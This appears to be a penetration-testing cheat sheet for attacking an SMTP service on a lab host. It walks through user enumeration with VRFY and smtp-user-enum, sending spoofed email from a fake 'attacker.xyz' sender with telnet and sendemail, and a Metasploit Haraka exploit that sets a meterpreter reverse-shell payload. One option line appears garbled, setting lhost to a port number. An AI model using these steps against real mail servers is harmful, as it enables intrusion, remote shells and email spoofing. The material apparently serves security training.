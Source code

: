 # Table of Contents
1. Overview
	1. ports
2. Tools
	1. netcat
	2. telnet
	3. [smtp-user-enum](#smtp-user-enum)
	4. [sendmail](#sendmail)
	5. [msfconsole](#msfconsole)

---

# Overview
Simple Mail Transfer Protocol

## Ports
25

---

# Tools
## netcat
Can use netcat to log into server manually
```bash
nc demo.ine.local 25
```

```bash
VRFY admin@openmailbox.xyz
```

## telnet
telnet can be used to check supported commands/capabilities
```bash
telnet demo.ine.local 25
HELO attacker.xyz
EHLO attacker.xyz
```

Can use telnet login to draft an email
```bash
telnet demo.ine.local 25
HELO attacker.xyz
mail from: admin@attacker.xyz
rcpt to:root@openmailbox.xyz
data
Subject: Hi Root
Hello,
This is a fake mail sent using telnet command.
From,
Admin
.
```

## smtp-user-enum

```bash
smtp-user-enum -U /usr/share/commix/src/txt/usernames.txt -t demo.ine.local
```

## sendmail

```bash
sendemail -f admin@attacker.xyz -t root@openmailbox.xyz -s demo.ine.local -u Fakemail -m "Hi root, a fake from admin" -o tls=no
```

## msfconsole
### Example
1. `db_nmap -sV -O demo.ine.local` : scan and import
2. `search type:exploit name:haraka` : search for service found
3. `use exploit/linux/smtp/haraka`
	1. `options` : view options to set
	2. `set SRVPORT 9898` : local listen port
	3. `set email_to root@attackdefense.test`
	4. `set payload linux/x64/meterpreter_reverse_http`
	5. `set lhost 8080` : set payload lhost